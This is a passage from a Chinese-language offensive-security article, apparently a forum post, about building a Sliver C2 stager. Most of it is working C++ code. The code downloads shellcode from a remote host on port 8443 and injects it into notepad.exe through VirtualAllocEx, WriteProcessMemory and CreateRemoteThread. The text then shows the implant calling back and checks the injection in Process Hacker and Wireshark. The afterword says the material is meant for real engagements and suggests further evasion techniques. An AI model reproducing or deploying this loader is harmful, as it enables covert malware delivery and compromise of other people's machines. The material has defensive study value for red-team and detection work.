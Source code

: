 ```cpp
int Inject(HANDLE hProc, BYTE* payload, DWORD payload_len) {
    LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;
    pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    WriteProcessMemory(hProc, pRemoteCode, payload, payload_len, NULL);
    hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (hThread != NULL) {
        // 等待0.5秒
        WaitForSingleObject(hThread, 500);
        CloseHandle(hThread);
        return 0;
    }
    return -1;
}

int main(void) {
    Shellcode shellcode = Download(L"172.16.181.182", 8443);
    HANDLE hProc = NULL;
    // 获取目标进程PID
    int pid = FindTarget(L"notepad.exe");
    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);
        hProc = OpenProcess(PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |
            PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
            FALSE, (DWORD)pid);
        if (hProc != NULL) {
            Inject(hProc, shellcode.data, shellcode.len);
            CloseHandle(hProc);
        }
    }
    return 0;
}
```

### 编译运行上线

同样，选择 x64 release 编译，执行上线  
![p9BHM11.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-66571f31087cb4e8bd1b71a7ff29e41c4492a3b0.png)

### 底层逻辑分析

通过 Process Hacker 和 WireShark 来验证该 Stager 是通过进程注入实现的。  
运行时打开 Process Hacker，找到分配的内存空间，可以查看到与WireShark中TCP包中数据完全匹配  
![p9BH3nK.png](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-4e518c29b920eb3b514f2a38e96b40b27276b487.png)

后记 ✅
----

这两篇关于Sliver Stager的研究前前后后花了一周多的时间，总结出来方便以后实战中的使用，当然，实际场景下的运用有机会遇到也会分享出来。这块内容也还是有拓展的地方，比如在Powershell中实现AES加解密、一行实现Powershell反射加载等，这些算是留给读者的作业了，可以基于这两篇文章去尝试。